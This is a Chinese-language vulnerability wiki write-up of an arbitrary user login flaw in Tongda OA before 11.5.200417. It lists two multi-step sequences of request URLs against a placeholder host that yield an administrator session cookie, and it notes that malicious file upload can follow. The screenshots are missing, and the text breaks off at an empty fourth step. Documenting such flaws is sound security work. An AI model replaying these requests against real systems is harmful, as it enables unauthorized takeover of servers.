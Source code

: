 通达OA \< 11.5.200417 任意用户登录漏洞
======================================

一、漏洞简介
------------

未经授权的攻击者可以通过构造进行任意用户登录（包括admin），登录之后可进一步上传恶意文件控制网站服务器。

二、漏洞影响
------------

通达OA \< 11.5.200417版本

三、复现过程
------------

### 第一种利用方法

> 第一步：拿到uid

    http://www.0-sec.org/general/login_code.php

![](/Users/aresx/Documents/VulWiki/.resource/通达OA<11.5.200417任意用户登录漏洞/media/rId25.png)

> 第二步：拿到cookie

    http://www.0-sec.org/logincheck_code.php

![](/Users/aresx/Documents/VulWiki/.resource/通达OA<11.5.200417任意用户登录漏洞/media/rId26.png)

> 第三步：

    http://www.0-sec.org/general/index.php?is_modify_pwd=1

![](/Users/aresx/Documents/VulWiki/.resource/通达OA<11.5.200417任意用户登录漏洞/media/rId27.png)

### 第二种利用方法

> 第一步：

    http://www.0-sec.org/ispirit/login_code.php

![](/Users/aresx/Documents/VulWiki/.resource/通达OA<11.5.200417任意用户登录漏洞/media/rId29.png)

> 第二步：

    http://www.0-sec.org/general/login_code_scan.php

![](/Users/aresx/Documents/VulWiki/.resource/通达OA<11.5.200417任意用户登录漏洞/media/rId30.png)

> 第三步：

    http://www.0-sec.org/ispirit/login_code_check.php?codeuid={EED2B9FE-F865-DCF1-0E8D-3326AE163F6D}

![](/Users/aresx/Documents/VulWiki/.resource/通达OA<11.5.200417任意用户登录漏洞/media/rId31.png)

> 第四步：
